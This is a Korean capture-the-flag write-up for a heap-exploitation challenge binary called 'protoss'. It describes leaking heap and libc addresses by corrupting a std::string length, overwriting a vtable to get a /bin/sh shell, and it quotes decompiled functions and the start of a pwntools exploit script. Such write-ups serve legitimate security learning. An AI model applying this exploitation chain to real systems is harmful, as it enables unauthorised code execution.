 ## Solution
cpp 내부 malloc이 heap 내부 값을 초기화하지 않는다는 점을 이용하여 write primitive를 통해 offset을 일부 조작하여 AAW를 진행할 수 있다.
릭을 할 수 있는 취약점은 발견하지 못했기 때문에, heap에 할당되는 user의 주소를 brute force를 통해 유추하여 릭을 진행하였다.
user의 Username은 std::string이기 때문에, 힙 내부에서 Username.length를 변조하여 아래 함수에서 heap과 libc를 한 번에 릭할 수 있다.
`handle_my_info:`
```cpp
__int64 __fastcall User::handle_my_info(User *this)
{
  v2 = std::operator<<<std::char_traits<char>>(&std::cout, "idx: ");
  v3 = std::ostream::operator<<(v2, *(this + 2));
  std::ostream::operator<<(v3, &std::endl<char,std::char_traits<char>>);
  v4 = std::operator<<<std::char_traits<char>>(&std::cout, "Username: ");
  v5 = std::operator<<<char>(v4, this + 0x10);
  std::ostream::operator<<(v5, &std::endl<char,std::char_traits<char>>);
  v6 = std::operator<<<std::char_traits<char>>(&std::cout, "Amount: ");
  v7 = std::ostream::operator<<(v6, *(this + 13));
  std::ostream::operator<<(v7, &std::endl<char,std::char_traits<char>>);
}
```

최종적으로 쉘을 얻기 위하여 user 구조체의 vtable을 변조한 후, 아래의 함수를 부르면 된다.
`Exchange::handle_sell:`
```cpp
          *(this + 1) = atoi(*row);
          v5 = *(*user + 8LL);
          v6 = user;
          std::string::basic_string(v24, v22);
          LOBYTE(v6) = v5(v6, v24, v17) ^ 1;
```
다만, this를 첫 번째 인자로 전달하는데, 이는 vtable의 위치기 때문에 인자 컨트롤이 어렵다.
이를 적당한 가젯을 찾아 /bin/sh가 들어갈 수 있도록 조작해주면 된다.

exploit을 약 30분 정도 돌리다 보면, 아래와 같이 쉘을 얻을 수 있다.
![image.png](https://dreamhack-media.s3.amazonaws.com/attachments/d6caae49bf48c5989804c2eeadcf17b20cbc02baa8891b19f114651762ba6cf6.png)

`ex.py:`
```py
#! /usr/bin/python3

from pwn import *
from subprocess import check_output
from enum import Enum, auto
import array
from datetime import datetime
import string
import protoss_pb2
import sys

DREAMHACK_PORT = 9133
PROTOSS_PORT = 5050
MYSQL_PORT = 3306
DEBUG_PORT = 22244
BINARY_PATH = "./protoss"
REMOTE = True

class UserEvent(Enum):
    SIGNUP = 0x10000000
    SIGNIN = auto()
    SIGNOUT = auto()
    MYINFO = auto()

class ExchangeEvent(Enum):
    BUY = 0x20000000
    SELL = auto()
```